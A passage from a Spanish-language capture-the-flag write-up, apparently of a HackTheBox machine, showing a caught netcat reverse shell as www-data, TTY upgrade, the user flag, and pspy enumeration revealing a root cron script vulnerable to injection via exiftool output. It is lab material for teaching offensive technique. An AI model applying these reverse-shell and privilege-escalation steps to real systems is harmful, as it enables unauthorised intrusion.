 La recibo en una sesión de netcat

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.21] from (UNKNOWN) [10.10.11.200] 56092
bash: cannot set terminal process group (1356): Inappropriate ioctl for device
bash: no job control in this shell
www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ script /dev/null -c bash
<r/dompdf/dompdf/lib/fonts$ script /dev/null -c bash     
Script started, file is /dev/null
www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ export TERM=xterm
www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ export SHELL=bash
9ww-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ stty rows 55 columns 20
```

Puedo ver la primera flag

```null
www-data@interface:/home/dev$ cat user.txt 
981877441c3fdf05ae0492c753c0547e
```

# Escalada

Subo el ```pspy``` para encontrar tareas que se ejecutan a intervalos regulares de tiempo

```null
2023/05/21 08:42:01 CMD: UID=0    PID=44570  | /usr/sbin/CRON -f 
2023/05/21 08:42:01 CMD: UID=0    PID=44572  | /bin/bash /usr/local/sbin/cleancache.sh 
2023/05/21 08:42:01 CMD: UID=0    PID=44571  | /bin/sh -c /usr/local/sbin/cleancache.sh 
2023/05/21 08:42:01 CMD: UID=0    PID=44575  | cut -d   -f1 
2023/05/21 08:42:01 CMD: UID=0    PID=44574  | /usr/bin/perl -w /usr/bin/exiftool -s -s -s -Producer /tmp/eviltest_original 
2023/05/21 08:42:01 CMD: UID=0    PID=44573  | /bin/bash /usr/local/sbin/cleancache.sh 
2023/05/21 08:42:02 CMD: UID=0    PID=44576  | /bin/bash /usr/local/sbin/cleancache.sh 
2023/05/21 08:42:02 CMD: UID=0    PID=44578  | cut -d   -f1 
2023/05/21 08:42:02 CMD: UID=0    PID=44577  | /usr/bin/perl -w /usr/bin/exiftool -s -s -s -Producer /tmp/pspy 
```

Se está ejecutando un script de ```bash```

```null
www-data@interface:/tmp$ cat /usr/local/sbin/cleancache.sh
#! /bin/bash
cache_directory="/tmp"
for cfile in "$cache_directory"/*; do

    if [[ -f "$cfile" ]]; then

        meta_producer=$(/usr/bin/exiftool -s -s -s -Producer "$cfile" 2>/dev/null | cut -d " " -f1)

        if [[ "$meta_producer" -eq "dompdf" ]]; then
            echo "Removing $cfile"
            rm "$cfile"
        fi

    fi

done
```
